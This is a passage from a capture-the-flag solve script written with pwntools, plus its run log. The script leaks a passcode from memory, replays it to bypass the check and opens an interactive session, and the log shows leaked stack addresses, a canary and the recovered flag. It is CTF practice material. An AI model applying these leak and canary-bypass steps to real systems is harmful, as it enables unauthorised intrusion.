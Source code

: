 ```py


pause()
p.sendline(payload)
pause()
p.recvuntil(b"Please enter an address e.g. 0x7fffdeadbeef:")
p.sendline(hex(passcode_addr))
p.recvuntil(b"contains ")
leaked_passcode = int(p.recvuntil(b"\n").strip(), 16)
print("[*] leaked passcode:", hex(leaked_passcode))

# Bypassing passcode 
p.recvuntil(b"* Please enter the passcode: ")
p.sendline(str(leaked_passcode).encode())


p.interactive()



'''parse_ldd_output
┌──(kali㉿kali)-[~/Desktop/CTF/UwUOF++]
└─$ python solve.py
[+] Opening connection to chal.firebird.sh on port 35020: Done
[*] UwU_main address: 0x556920c78e27
[*] UwU address: 0x7ffc1cd566d0
[*] RBP address: 0x7ffc1cd56740
[*] main address: 0x556920c78faf
/home/kali/Desktop/CTF/UwUOF++/solve.py:45: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(canary_location)
[*] leaked canary: 0xb4782f2a66996a00
[*] Paused (press any to continue)
[*] Paused (press any to continue)
/home/kali/Desktop/CTF/UwUOF++/solve.py:69: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(hex(passcode_addr))
[*] leaked passcode: 0x122bf
[*] Switching to interactive mode
You beat me... Let me print the flag to you... ( ˘•ω•˘ )◞⁽˙³˙⁾
flag{y0u_b3a7_7h3_g0d_0f_UwU_w17h_B0F!?}
'''
```